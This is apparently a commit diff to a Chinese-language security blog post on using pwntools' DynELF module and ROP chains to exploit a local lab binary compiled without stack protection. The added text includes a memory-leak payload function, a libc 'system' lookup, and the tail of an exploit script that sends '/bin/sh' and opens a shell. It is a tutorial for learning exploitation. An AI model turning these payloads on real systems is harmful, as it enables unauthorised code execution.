

Before and after one commit to pench3r/OldBlog, a Jekyll site: the page built from _posts/2018-03-30-dynelf-rop.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2018-03-30-dynelf-rop.md

```diff
--- a/_posts/2018-03-30-dynelf-rop.md
+++ b/_posts/2018-03-30-dynelf-rop.md
@@ -1,7 +1,44 @@
 ---
 layout: post
-title: "Dynelf && rop"
+title: "DynELF && ROP"
 ---
+
+#### 0x00 前言 ####
+
+- 环境： kali 2016.2  32位
+- 工具： pwntools peda
+
+安全机制只开启了NX和ASLR，其他都关闭
+
+	echo 2 > /proc/sys/kernel/randomized_va_space
+
+	gcc -g -fno-stack-protector -o vul vul.c
+
+vul.c的内容同[ret2libc && ROP](https://pench3r.github.io/2018/03/30/ret2libc-rop.html)中使用的相同。
+
+#### 0x01 漏洞利用 ####
+
+在[ret2libc && ROP](https://pench3r.github.io/2018/03/30/ret2libc-rop.html)我们介绍的ROP方法，是通过获取到程序使用的对应so文件，计算函数的偏移，再配合泄漏出一个函数的内存地址，可以计算出`system`的地址和`/bin/sh`的字符串地址，最后构造`ROP`获取`shell`
+
+但是有些情况下我们并无法获取到程序所使用的`so`库文件，此时我们可以借用`pwntools`中提供的`DynELF`模块进行内存地址的爆破，前提是我们可以控制目标程序去泄漏内存地址(这个是关键)，漏洞的原理还是和[ret2libc && ROP](https://pench3r.github.io/2018/03/30/ret2libc-rop.html)一样。
+
+利用脚本的核心为：
+
+<pre>e = DynELF(leak, elf=ELF('./vul'))   # 初始化DynELF模块</pre>
+
+其中的leak为主要的暴力破解的函数
+
+<pre>def leak(address):
+    payload = "A"*payload_len + p32(write_plt_addr) + p32(main) + p32(1) + p32(address) + p32(4)
+    p.send(payload)
+    data = p.recv(4)
+    log.debug("%#x => %s" % (address, (data or '').encode('hex')))
+    return data</pre>
+
+最后使用`lookup`来破解需要的函数地址
+
+<pre>e.lookup('__libc_system', 'libc')</pre>
+
 
 整合的利用脚本：
 
@@ -49,3 +86,9 @@ sleep(1)
 p.send("/bin/sh\0")
 
 p.interactive()</pre>
+
+ps: 本地测试的时候，一直无法运行成功，后来发现原因是由于leak函数中`payload = "A"*payload_len + p32(write_plt_addr) + p32(main) + p32(1) + p32(address) + p32(4)`，`p32(main)`不能设置为`p32(vul_func)`,目前不太肯定到底是什么原因，个人猜测可能是涉及到堆栈的一些问题。
+
+#### 0x02 总结 ####
+
+这篇文章中只介绍了DynELF模块的基本使用方法，对于漏洞原理并没有过多的解释，可以通过[ret2libc && ROP](https://pench3r.github.io/2018/03/30/ret2libc-rop.html)做深入理解。
```
